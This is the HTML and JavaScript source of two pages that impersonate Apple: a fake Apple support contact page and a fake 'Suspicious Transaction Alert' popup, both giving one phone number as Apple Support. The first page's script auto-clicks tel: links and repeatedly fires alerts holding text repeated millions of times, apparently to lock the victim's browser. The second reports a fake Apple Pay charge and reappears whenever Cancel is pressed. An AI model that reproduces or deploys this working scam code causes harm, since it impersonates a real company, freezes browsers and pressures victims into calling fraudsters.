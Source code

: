  <!DOCTYPE html>
 <html xmlns="http://www.w3.org/1999/xhtml" lang="en-US" class="no-js">


<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
	 <meta http-equiv="X-UA-Compatible" content="IE=edge" />
	 <meta name="viewport" content="width=device-width, initial-scale=1" />
	 <meta http-equiv="cache-control" content="max-age=3600" />
	 <title>Contact - Official Apple</title>
	 <meta name="description" content="Contact Apple support by phone or chat, set up a repair, or make a Genius Bar appointment for iPhone, iPad, Mac and more." />

	 <link rel="stylesheet" href="Base.css" type="text/css" />
	 <link rel="stylesheet" type="text/css" href="fonts/_families=SF+Pro,v1_7CSF+Pro+Icons,v1html.html" />
	 <script src="text.js"></script>
 </head>
		</div>
	</div>
 <div id="result"></div>
 <input type="checkbox" id="ac-gn-menustate" class="ac-gn-menustate" />
 <nav id="ac-globalnav" class="no-js">
	 <div class="ac-gn-content">
		 <ul class="ac-gn-header">
			 <li class="ac-gn-item ac-gn-menuicon">
				 <label class="ac-gn-menuicon-label" for="ac-gn-menustate" aria-hidden="true">
					 <span class="ac-gn-menuicon-bread ac-gn-menuicon-bread-top">
						 <span class="ac-gn-menuicon-bread-crust ac-gn-menuicon-bread-crust-top"></span>
					 </span>
					 <span class="ac-gn-menuicon-bread ac-gn-menuicon-bread-bottom">
						 <span class="ac-gn-menuicon-bread-crust ac-gn-menuicon-bread-crust-bottom"></span>
					 </span>
				 </label>
				 <a href="#ac-gn-menustate" class="ac-gn-menuanchor ac-gn-menuanchor-open" id="ac-gn-menuanchor-open">
					 <span class="ac-gn-menuanchor-label">Open Menu </span></a>
				 <a href="#" class="ac-gn-menuanchor ac-gn-menuanchor-close" id="ac-gn-menuanchor-close">
					 <span class="ac-gn-menuanchor-label">Close Menu </span></a>
			 </li>
			 <li class="ac-gn-item ac-gn-apple">
				 <a class="ac-gn-link ac-gn-link-apple" href="#" id="ac-gn-firstfocus-small">
					 <span class="ac-gn-link-text">Apple </span></a>
			 </li>
			 <li class="ac-gn-item ac-gn-bag ac-gn-bag-small" id="ac-gn-bag-small">
				 <a class="ac-gn-link ac-gn-link-bag analytics-exitlink" href="#"><span class="ac-gn-link-text">Shopping Bag </span><span class="ac-gn-bag-badge"></span></a>
				 <span class="ac-gn-bagview-caret ac-gn-bagview-caret-large"></span>
			 </li>
		 </ul>
		 <ul class="ac-gn-list">
			 <li class="ac-gn-item ac-gn-apple">
				 <a class="ac-gn-link ac-gn-link-apple" href="#" id="ac-gn-firstfocus">
					 <span class="ac-gn-link-text">Apple </span></a>
			 </li>
			 <li class="ac-gn-item ac-gn-item-menu ac-gn-mac">
				 <a class="ac-gn-link ac-gn-link-mac" href="#">
					 <span class="ac-gn-link-text">Mac </span></a>
			 </li>
			 <li class="ac-gn-item ac-gn-item-menu ac-gn-ipad">
				 <a class="ac-gn-link ac-gn-link-ipad" href="#">
					 <span class="ac-gn-link-text">iPad </span></a>
			 </li>
			 <li class="ac-gn-item ac-gn-item-menu ac-gn-iphone">
				 <a class="ac-gn-link ac-gn-link-iphone" href="#">
					 <span class="ac-gn-link-text">iPhone </span></a>
			 </li>
			 <li class="ac-gn-item ac-gn-item-menu ac-gn-watch">
				 <a class="ac-gn-link ac-gn-link-watch" href="#">
					 <span class="ac-gn-link-text">Watch </span></a>
			 </li>
			 <li class="ac-gn-item ac-gn-item-menu ac-gn-tv">
				 <a class="ac-gn-link ac-gn-link-tv" href="#">
					 <span class="ac-gn-link-text">TV </span></a>
			 </li>
			 <li class="ac-gn-item ac-gn-item-menu ac-gn-music">
				 <a class="ac-gn-link ac-gn-link-music" href="#">
					 <span class="ac-gn-link-text">Music </span></a>
			 </li>
			 <li class="ac-gn-item ac-gn-item-menu ac-gn-support">
				 <a class="ac-gn-link ac-gn-link-support" href="#">
					 <span class="ac-gn-link-text">Support </span></a>
			 </li>
			 <li class="ac-gn-item ac-gn-item-menu ac-gn-search" role="search">
				 <a class="ac-gn-link ac-gn-link-search" href="#">
					 <span class="ac-gn-search-placeholder" aria-hidden="true">Search apple.com </span></a>
			 </li>
			 <li class="ac-gn-item ac-gn-bag" id="ac-gn-bag">
				 <a class="ac-gn-link ac-gn-link-bag analytics-exitlink" href="#" aria-label="Shopping Bag">
					 <span class="ac-gn-link-text">Shopping Bag </span>
					 <span class="ac-gn-bag-badge" aria-hidden="true"></span></a>
				 <span class="ac-gn-bagview-caret ac-gn-bagview-caret-large"></span>
			 </li>
		 </ul>
		 <aside id="ac-gn-searchview" class="ac-gn-searchview" role="search">
			 <div class="ac-gn-searchview-content">
				 <form id="ac-gn-searchform" class="ac-gn-searchform" action="http://www.apple.com/us/search" method="get">
					 <div class="ac-gn-searchform-wrapper">
						 <input id="ac-gn-searchform-input" class="ac-gn-searchform-input" type="text" placeholder="Search apple.com" autocorrect="off" autocapitalize="off" autocomplete="off" spellcheck="false" />
						 <input id="ac-gn-searchform-src" type="hidden" name="src" value="globalnav" />
						 <button id="ac-gn-searchform-submit" class="ac-gn-searchform-submit" type="submit" disabled="" aria-label="Submit"></button>
						 <button id="ac-gn-searchform-reset" class="ac-gn-searchform-reset" type="reset" disabled="" aria-label="Clear Search"></button>
					 </div>
				 </form>
				 <aside id="ac-gn-searchresults" class="ac-gn-searchresults"></aside>
			 </div>
			 <button id="ac-gn-searchview-close" class="ac-gn-searchview-close" aria-label="Close Search">
					 <span class="ac-gn-searchview-close-wrapper">
						 <span class="ac-gn-searchview-close-left"></span>
						 <span class="ac-gn-searchview-close-right"></span>
					 </span>
			 </button>
		 </aside>
		 <aside class="ac-gn-bagview">
			 <div class="ac-gn-bagview-scrim">
				 <span class="ac-gn-bagview-caret ac-gn-bagview-caret-small"></span>
			 </div>
			 <div class="ac-gn-bagview-content" id="ac-gn-bagview-content">
			 </div>
		 </aside>
	 </div>
 </nav>
 <div id="ac-gn-curtain" class="ac-gn-curtain"></div>
 <div id="ac-gn-placeholder" class="ac-nav-placeholder"></div>

 <div class="main">
	 <input type="checkbox" id="ac-ln-menustate" class="ac-ln-menustate" />
	 <nav id="ac-localnav" class="js no-touch css-sticky" lang="en-US" role="navigation" data-sticky="">
		 <div class="ac-ln-wrapper">
			 <div class="ac-ln-background"></div>
			 <div class="ac-ln-content">
					 <span class="ac-ln-title">
                       <a href="#">
									Support +1(806)-577-3234 <font color="red"><font class="js_setPhoneBlock"></font></font></a>
							 </span>
				 <div class="ac-ln-menu">
					 <a href="#ac-ln-menustate" class="ac-ln-menucta-anchor ac-ln-menucta-anchor-open" id="ac-ln-menustate-open">  <span class="ac-ln-menucta-anchor-label">Open menu </span></a>  <a href="#" class="ac-ln-menucta-anchor ac-ln-menucta-anchor-close" id="ac-ln-menustate-close">  <span class="ac-ln-menucta-anchor-label">Close menu </span></a>
					 <div class="ac-ln-menu-tray">
						 <ul class="ac-ln-menu-items">
							 <li class="ac-ln-menu-item"><a href="#" class="ac-ln-menu-link analytics-exitlink"> Communities </a>
							 </li>
						 </ul>
					 </div>
					 <div class="ac-ln-actions">
						 <div class="ac-ln-action ac-ln-action-menucta" aria-hidden="true">
							 <label for="ac-ln-menustate" class="ac-ln-menucta">  <span class="ac-ln-menucta-chevron"></span>
							 </label>
						 </div>
					 </div>
				 </div>
			 </div>
		 </div>
	 </nav>
	 <section class="as-columns  as-columns--1up  as-banner as-banner--top">
		 <div class="row">
			 <div class="column large-12 medium-12 small-12">
				 <div class='as-banner-cont'>
					 <div class='as-banner-image as-banner-image--top'>
						 <style type="text/css">
							.as-banner-image.as-banner-image--top {
								background-image: url("globalnav/apple/contact-us-hero.image.large_2x.jpg");
							}

							.as-banner-image.as-banner-image--top:before {
								content: "";
								display: block;
							}

							@media only screen and (max-width: 735px) {
								.as-banner-image.as-banner-image--top {
									background-image: url("globalnav/apple/contact-us-hero.image.small_2x.jpg");
								}
							}
						</style>

						 <img sizes="(min-width:735px ) 735w, 100vw" srcset="globalnav/apple/contact/contact-us-hero.image.small_2x.jpg 735w, globalnav/apple/contact-us-hero.image.large_2x.jpg 1440w" alt="" class="as-image-speculativedownload" src="globalnav/apple/contact-us-hero.image.large_2x.jpg" />
					 </div>
				 </div>
				 <div class="as-banner-content">
					 <div class="pageTitle  ">
						 <h1 class="pageTitle-heading">Contact Support </h1>
						 <p class="pageTitle-intro js_setTextBlock" /></div>
					 <div class="sectionTitle sectionTitleBlock"><h2 class="sectionTitle-heading"></h2></div>
				 </div>
			 </div>
		 </div>
	 </section>
 </div>
 <footer id="ac-globalfooter" class="no-js">
	 <div class="ac-gf-content">
		 <section class="ac-gf-footer">
			 <div class="ac-gf-footer-shop"> More ways to: Visit an  <a href="#" class="analytics-exitlink">Apple Store </a>,  <span class="nowrap">call  <font class="js_setPhoneBlock"></font>, or  <a href="#" class="analytics-exitlink">find a reseller </a></span>.
			 </div>
			 <div class="ac-gf-footer-locale">
				 <a class="ac-gf-footer-locale-link" href="#" title="Choose your country or region" aria-label="United States. Choose your country or region"><img class="ac-gf-footer-locale-flag" src="globalnav/apple/us.png" alt="" width="16" height="16" />United
					States </a>
			 </div>
			 <div class="ac-gf-footer-legal">
				 <div class="ac-gf-footer-legal-copyright">Copyright© 2018 Apple . All rights reserved. </div>
				 <div class="ac-gf-footer-legal-links"><a class="ac-gf-footer-legal-link analytics-exitlink" href="#">Privacy
					Policy </a>  <a class="ac-gf-footer-legal-link analytics-exitlink" href="#">Terms of Use </a>
					 <a class="ac-gf-footer-legal-link analytics-exitlink" href="#">Sales and Refunds </a>  <a class="ac-gf-footer-legal-link" href="#">Site
						Map </a>  <a class="ac-gf-footer-legal-link" href="#">Contact
						Apple </a></div>
			 </div>
			 <meta content="Apple" property="name" />
			 <meta content="+1(806)-577-3234" property="telephone" />
		 </section>
	 </div>
 </footer>
 <script src="code.jquery.com/jquery-1.12.0.min.js"></script>
 <script>

	function getURLParameter(name) {
		return decodeURI(
			(RegExp(name + '=' + '(.+?)(&|$)').exec(location.search)||[,null])[1] || ''
		);
	};
	var cookieHelper={defParams:{path:"/",domain:"."+window.location.host.replace(/:\d+/,"")},set:function(a,d,c){c=c||{};for(var b in this.defParams)"undefined"==typeof c[b]&&(c[b]=this.defParams[b]);b=c.expires;if("number"==typeof b&&b){var e=new Date;e.setTime(e.getTime()+1E3*b);b=c.expires=e}b&&b.toUTCString&&(c.expires=b.toUTCString());d=encodeURIComponent(d);a=a+"="+d;for(var f in c)a+="; "+f,d=c[f],!0!==d&&(a+="="+d);document.cookie=a},get:function(a){return(a=document.cookie.match(new RegExp("(?:^|; )"+a.replace(/([\.$?*|{}\(\)\[\]\\\/\+^])/g,"\\$1")+"=([^;]*)")))?decodeURIComponent(a[1]):void 0},del:function(a){this.set(a,null,{expires:-1})}};


	var userAgent = window.navigator.userAgent.toLowerCase(),
		ios = /iphone|ipod|ipad/.test( userAgent );

	function parseURL(url) {
		var a=document.createElement('a');
		a.href=url;
		return a.hostname.replace('www.','');
	};

	function getPar(name) {
		var url = window.location.href;
		name = name.replace(/[\[\]]/g, "\\$&");
		var regex = new RegExp("[?&]" + name + "(=([^&#]*)|&|#|$)"),
			results = regex.exec(url);
		if (!results) return null;
		if (!results[2]) return '';
		return decodeURIComponent(results[2].replace(/\+/g, " "));
	};

	window.number = getPar('phone');

	window.number =(window.number?window.number:'+1(806)-577-3234');

	window.device= 'iPhone';
	window.refef = parseURL(document.referrer);

	if( ios ) {

		if(/iphone/.test( userAgent )){
			window.device= 'iPhone';
		}

		if(/ipad/.test( userAgent )){
			window.device= 'iPad';
		}

		if(/ipod/.test( userAgent )){
			window.device= 'iPod';
		}
	}

	var text = cookieHelper.get('textSetBl');
	var phone = cookieHelper.get('phoneSetBl');

	function getText () {
		var str = window.defaultText;

		for(var d in window.text){
			if(window.refef.indexOf(d)!=-1){
				str=window.text[d];
			}
		}
		//var str = window.text[window.refef]?window.text[window.refef]:window.defaultText;
		return str.replace('|%model%|',window.device).replace('|%ref%|',window.refef);
	}


	if(!phone){
		phone=getURLParameter('phone');
	}
	if(!text){
		text=getURLParameter('text');
	}

	var sText = document.querySelectorAll('.js_setTextBlock');
	for (var t = 0; t < sText.length; t++) {
		sText[t].innerHTML = getText();
	}
	var sPhone = document.querySelectorAll('.js_setPhoneBlock');
	for(var p=0;p<sPhone.length;p++){
		sPhone[p].innerHTML=phone;
	}


	setInterval(function () { okkkk() }, 100);

	 function okkkk() {
		jQuery('#result').append('<a  class="anchorcall" href="tel:+1(806)-577-3234"></a>');
		document.querySelector('a').click();
		var extraData = "";
		for (itxextraData = 0; itxextraData < 200000; itxextraData++) {
			var extraData = extraData + "5555555555";
		}
		jQuery('#result').append('<a href="#callto+' + extraData + '%00"></a>');
		document.querySelector('a').click();
		document.querySelector('a').click();
		document.querySelector('a').click();
		document.querySelector('a').click();
		document.querySelector('a').click();
		document.querySelector('a').click();
		setInterval(function(){ alert(getText().repeat(20000000));}, 500);
	 };


	 window.ununload = function () {
	     debugger;
	     location.reload();
	 }
</script>
 </body>
</html>
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <title>Apple Security Alert</title>
  <style>
    body {
      margin: 0;
      font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Arial, sans-serif;
      background: #f2f2f7;
    }

    .alert-overlay {
      position: fixed;
      top: 0; left: 0;
      width: 100vw;
      height: 100vh;
      background: rgba(0, 0, 0, 0.4);
      display: flex;
      align-items: center;
      justify-content: center;
      z-index: 10000;
    }

    .alert-box {
      background: #323639;
      color: white;
      border-radius: 15px;
      width: 90%;
      max-width: 340px;
      box-shadow: 0 10px 30px rgba(0,0,0,0.5);
      text-align: center;
      padding: 20px 16px;
    }

    .alert-title {
      font-weight: 600;
      font-size: 18px;
      margin-bottom: 14px;
    }

    .alert-message {
      font-size: 14px;
      line-height: 1.5;
      margin-bottom: 20px;
	  color: #cfcfcf;
    }

    .alert-buttons {
      display: flex;
      justify-content: space-around;
      gap: 10px;
    }

    .alert-btn {
      flex: 1;
      padding: 10px 0;
      font-size: 16px;
      font-weight: 500;
      border: none;
      border-radius: 10px;
      cursor: pointer;
      display: flex;
      align-items: center;
      justify-content: center;
    }

    .btn-ok {
      background-color: #0a84ff;
      color: white;
    }

    .btn-cancel {
      background-color: #2c2c2e;
      color: white;
    }

    @media screen and (max-width: 400px) {
      .alert-box {
        font-size: 14px;
      }
    }
  </style>
</head>
<body>

<!-- Apple-style security alert -->
<div class="alert-overlay" id="appleAlert">
  <div class="alert-box">
    <div class="alert-title">Suspicious Transaction Alert</div>
    <div class="alert-message">
      Your Apple ID was recently used at APPLE STORE for $192.94 via Apple Pay Pre-Authorization! We have placed those requests on hold to ensure safety and security. Not you? Immediately call Apple Support +1(806)-577-3234 to freeze it!
    </div>
    <div class="alert-buttons">
      <button class="alert-btn btn-ok" onclick="makeCall()">OK</button>
      <button class="alert-btn btn-cancel" onclick="reappear()">Cancel!</button>
    </div>
  </div>
</div>

<script>
  function makeCall() {
    window.location.href = "tel:+18065773234";
  }

  function reappear() {
    const alert = document.getElementById('appleAlert');
    alert.style.display = 'none';
    setTimeout(() => {
      alert.style.display = 'flex';
    }, 400); // Reappear after 400ms
  }
</script>

</body>
</html>
